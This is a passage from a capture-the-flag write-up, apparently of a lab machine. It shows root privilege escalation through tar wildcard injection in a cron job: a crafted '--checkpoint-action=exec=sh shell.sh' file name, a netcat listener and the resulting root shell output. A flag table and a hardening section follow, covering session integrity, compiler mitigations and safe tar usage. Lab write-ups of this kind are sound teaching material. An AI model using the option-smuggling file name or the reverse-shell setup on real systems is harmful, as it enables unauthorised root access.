-rw-rw-r-- 1 spooky magna     1 Oct 28 09:35 '--checkpoint-action=exec=sh shell.sh'
-rwxrwxrwx 1 spooky magna     0 Jul 10  2020  .confrc
-r-------- 1 spooky spooky   33 Jul  4  2020  flag.txt
drwxrwxr-x 3 spooky spooky 4096 Jul  5  2020  .local
-rw-r--r-- 1 spooky spooky  807 Jul  4  2020  .profile
-rwxrwxr-x 1 spooky magna    82 Oct 28 09:35  shell.sh
drwx------ 2 spooky spooky 4096 Jul  8  2020  .ssh
-rw-rw-r-- 1 spooky magna   535 Jul 10  2020  .webscript
```

#### Step 3: Start the Netcat Listener
On the attacking machine (`192.168.142.57`):

```bash
nc -lvnp 9001
```

#### Step 4: Intercept the Callback & Extract Root Flag
Within 60 seconds, the root cron fires, expanding `tar -zcf ... --checkpoint=1 --checkpoint-action=exec=sh shell.sh ...`, executing `shell.sh` with root privileges:

```text
listening on [any] 9001 ...
connect to [192.168.142.57] from (UNKNOWN) [10.49.159.175] 54688
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
# cd /root
# ls -la
total 412
drwx------  8 root root   4096 Oct 22  2025 .
drwxr-xr-x 24 root root   4096 Oct 28 07:34 ..
lrwxrwxrwx  1 root root      9 Jul  4  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root   3106 Apr  9  2018 .bashrc
drwx------  3 root root   4096 Jul  6  2020 .cache
drwxr-xr-x  3 root root   4096 Jul  7  2020 .config
-r--------  1 root root     33 Jul  4  2020 flag.txt
-rw-------  1 root root    242 Jul  8  2020 .gdb_history
-rw-r--r--  1 root root     29 Jul  7  2020 .gdbinit
-rw-r--r--  1 root root 356593 Jul  7  2020 .gdbinit-gef.py
drwx------  3 root root   4096 Jul  4  2020 .gnupg
drwxr-xr-x  3 root root   4096 Jul  4  2020 .local
-rw-r--r--  1 root root    161 Jan  2  2024 .profile
-rw-r--r--  1 root root     66 Jul  5  2020 .selected_editor
drwx------  3 root root   4096 Oct 22  2025 snap
drwx------  2 root root   4096 Oct 19  2025 .ssh
-rw-------  1 root root      0 Oct 22  2025 .viminfo
-rw-r--r--  1 root root    215 Jul  7  2020 .wget-hsts
# cat flag.txt
bc55a426e98deb673beabda50f24ce66
```

**Root Flag:** `bc55a426e98deb673beabda50f24ce66`

---

## 9. Captured Flags & Verification

| Stage | Account Context | Acquisition Mechanism | Flag Hash |
| :--- | :--- | :--- | :--- |
| **User 1** | `magna` (UID 1000) | Cookie manipulation (`access=granted`) + Python custom modulo cipher reversal | `9184177ecaa83073cbbf36f1414cc029` |
| **User 2** | `spooky` (UID 1001) | SUID binary stack buffer overflow (`hacktheworld`) ret2win to `0x400658` | `69ee352fb139c9d0699f6f399b63d9d7` |
| **Root** | `root` (UID 0) | Scheduled Crontab wildcard argument injection on `tar` via GTFOBins | `bc55a426e98deb673beabda50f24ce66` |

---

## 10. Defense, Hardening & Remediation Strategies

### 1. Robust Server-Side Authentication & Session Integrity
- **Vulnerability:** Authorization depended on a client-controlled, unauthenticated cookie value (`access=denied`).
- **Remediation:** Client-side flags must never govern access to sensitive logic. Utilize cryptographically signed, server-managed sessions (e.g., HMAC-SHA256 tokens or session identifiers mapped to an internal database). Enforce the `HttpOnly` and `SameSite=Strict` flags on all session cookies to prevent tampering and cross-site scripting leakage.

### 2. Elimination of Unsound Cryptographic Obfuscation
- **Vulnerability:** Sensitive credentials were obfuscated using a static custom substitution/summation cipher.
- **Remediation:** "Security through obscurity" violates Kerckhoffs's principle. Never transmit system credentials across public web interfaces. Secrets must remain strictly managed within dedicated secret vaults (e.g., HashiCorp Vault, AWS Secrets Manager) and hashed using salted, adaptive algorithms such as Argon2id or bcrypt.

### 3. Binary Hardening & Memory Safety
- **Vulnerability:** `hacktheworld` used the deprecated, inherently unsafe `gets()` C standard library function, which lacks length bounds checking. The binary was also compiled without stack canaries or PIE.
- **Remediation:**
  1. Replace unbounded calls with length-guaranteed functions such as `fgets(buffer, sizeof(buffer), stdin)` or `getline()`.
  2. Compile all production executables with full compiler mitigations enabled:
     ```bash
     gcc -fstack-protector-strong -D_FORTIFY_SOURCE=2 -Wl,-z,relro,-z,now -pie -fPIE -o hacktheworld hacktheworld.c
     ```
  3. Restrict SUID binaries to only those strictly required by system operations. Avoid creating custom SUID executables.

### 4. Hardening Shell Scripts & Cron Jobs Against Wildcard Injection
- **Vulnerability:** `tar` was invoked against an unconstrained wildcard pattern (`*`) in a world- or user-writable directory.
- **Remediation:**
  1. Explicitly terminate option processing using the double-dash `--` delimiter, signaling to `tar` that subsequent tokens are strictly positional arguments, not flags:
     ```bash
     tar -zcf /var/backups/spooky.tgz -- /home/spooky/*
     ```
  2. Alternatively, specify relative directory paths explicitly without wildcard globbing:
     ```bash
     tar -zcf /var/backups/spooky.tgz -C /home/spooky .
     ```
  3. Ensure backup cron jobs run under dedicated service accounts possessing only the minimum necessary read permissions rather than direct `root` privileges.
